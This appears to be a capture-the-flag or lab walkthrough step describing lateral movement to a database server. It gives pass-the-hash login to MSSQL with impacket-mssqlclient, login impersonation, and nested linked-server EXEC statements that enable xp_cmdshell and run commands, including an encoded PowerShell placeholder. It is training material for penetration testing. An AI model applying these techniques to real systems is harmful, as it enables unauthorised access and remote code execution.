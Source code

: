 # Lateral movement to DB01

With admin access on DB01, take the hash of the machine account WEB01$. Connect to MSSQL with `proxychains impacket-mssqlclient -windows-auth -no-pass  'WEB01$'@172.16.X.Y -hashes :<HASH>`.  
Impersonate the user dev_int `EXECUTE AS LOGIN = 'dev_int';`  

Then, perform code execution on yourself using double-exec, after enable xp_cmdshell:  
```sql
EXEC ('EXEC (''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT db01') AT db02
EXEC ('EXEC (''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT db01') AT db02
EXEC ('EXEC (''xp_cmdshell ''''<your cmd here>'''''') AT db01') AT db02
EXEC ('EXEC (''xp_cmdshell ''''powershell -enc XXXXX'''''') AT db01') AT db02
```

Flag should be in C:\Users\Public\local.txt
